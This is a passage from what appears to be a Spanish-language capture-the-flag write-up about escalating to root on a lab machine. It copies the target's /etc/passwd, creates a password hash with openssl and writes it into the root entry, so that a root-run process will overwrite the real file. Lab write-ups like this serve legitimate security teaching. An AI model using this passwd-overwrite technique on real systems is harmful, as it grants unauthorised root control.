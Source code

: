 Vale pues llegados a este punto nosotros podriamos copiarnos el archivo `/etc/passwd` del user `floris`, para crearnos una contraseña en formato Unix para ponerla en el archivo nuevo de `passwd` que nos vamos a crear para posteriormente atraves del archivo `input` modificarlo y hacer que nos lo guarde en su propio `/etc/paswd`a nivel de root con la contraseña que le hallamos puesto.

Paso 1.- Copiarse el /etc/pàsswd de floris
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Paso 2.- Crearnos una contraseña para el user Root y pegarla en el nuevo `passwd`:
```bash
# openssl passwd
Password: hola
Verifying - Password: hola
kuaLSx9HZad7.
```
Pegandola en el archivo `passwd` en nuestra maquina, para el user `root`:
```bash
root:kuaLSx9HZad7.:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```